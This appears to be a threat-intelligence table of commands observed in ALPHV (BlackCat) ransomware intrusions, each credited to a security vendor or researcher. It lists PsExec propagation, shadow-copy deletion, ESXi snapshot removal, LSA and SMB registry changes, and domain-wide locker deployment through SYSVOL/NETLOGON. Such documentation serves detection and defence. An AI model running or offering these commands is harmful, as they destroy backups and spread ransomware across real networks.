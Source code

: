 | Targeted   system by ALPHV ransomware |                                                                                          Commands                                                                                         | Source          |
|:-------------------------------------:|:-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------:|-----------------|
|                Windows                | CSIDL_WINDOWS\temp\psexec.exe   -accepteula \\[REDACTED] -u [REDACTED] -p [REDACTED] -s -d -f -c   [REDACTED].exe --access-token [REDACTED] --no-prop-servers \\[REDACTED]   --propagated | [Symantec](https://symantec-enterprise-blogs.security.com/blogs/threat-intelligence/noberus-blackcat-alphv-rust-ransomware)        |
|                                       |                                                                    [REDACTED].exe   --access-token [REDACTED] --no-net                                                                    | [Symantec](https://symantec-enterprise-blogs.security.com/blogs/threat-intelligence/noberus-blackcat-alphv-rust-ransomware)        |
|                                       |                                              reg add HKLM\SYSTEM\CurrentControlSet\Control\Lsa /v   DisableRestrictedAdmin /t REG_DWORD /d 0                                              | [Symantec](https://symantec-enterprise-blogs.security.com/blogs/threat-intelligence/noberus-blackcat-alphv-rust-ransomware)        |
|                                       |                                                                       cmd /c vssadmin.exe delete shadows /all /quiet                                                                      | [Symantec](https://symantec-enterprise-blogs.security.com/blogs/threat-intelligence/noberus-blackcat-alphv-rust-ransomware)        |
|                                       |                                                                               cmd /c wmic csproduct get UUID                                                                              | [Symantec](https://symantec-enterprise-blogs.security.com/blogs/threat-intelligence/noberus-blackcat-alphv-rust-ransomware)        |
|                                       |                                                                     cmd /c fsutil behavior set SymlinkEvaluation R2L:1                                                                    | [Symantec](https://symantec-enterprise-blogs.security.com/blogs/threat-intelligence/noberus-blackcat-alphv-rust-ransomware)        |
|                                       |                                                                     cmd /c fsutil behavior set SymlinkEvaluation R2R:1                                                                    | [Symantec](https://symantec-enterprise-blogs.security.com/blogs/threat-intelligence/noberus-blackcat-alphv-rust-ransomware)        |
|                                       |                            cmd /c reg add   HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters   /v MaxMpxCt /d 65535 /t REG_DWORD /f                           | [Symantec](https://symantec-enterprise-blogs.security.com/blogs/threat-intelligence/noberus-blackcat-alphv-rust-ransomware)        |
|                                       |                                             ./sample_alfa_x86_64_linux_encrypt_app.exe --access-token   XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX                                            | Intrinsec       |
|                                       | C:\Users\administrator\Documents\ScreenConnect\Temp\start.bat                                                                                                                             | [th3_protoCOL](https://twitter.com/th3_protoCOL/status/1474471075392094213)    |
|                                       |                               ./sample_alfa_x86_64_linux_encrypt_app.exe --access-token   XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX --drop-drag-and-drop-target                              | Intrinsec       |
|        Windows (whole   domain)       |                                         copy   sample_alfa_x86_64_linux_encrypt_app.exe   C:\WINDOWS\sysvol\sysvol\*yourdomain*\scripts\locker.exe                                        | Intrinsec       |
|                                       |                                                /c \\yourdomain\netlogon\locker.exe --access-token   XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX                                                | Intrinsec       |
|                 Linux                 |                                                                vim-cmd   vmsvc/snapshot.removeall (to clean ESXi snapshots)                                                               | [malwrhunterteam](https://twitter.com/malwrhunterteam/status/1473251193514340361) |
|                                       |                                                                scp sample_alfa_x86_64_linux_encrypt_app root@10.0.0.1:/tmp/                                                               | Intrinsec       |
|                                       |                                                                 cd /tmp/ && chmod +x sample_alfa_x86_64_linux_encrypt_app                                                                 | Intrinsec       |
|                                       |                                             tmp/sample_alfa_x86_64_linux_encrypt_app --access-token   XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX&                                             | Intrinsec       |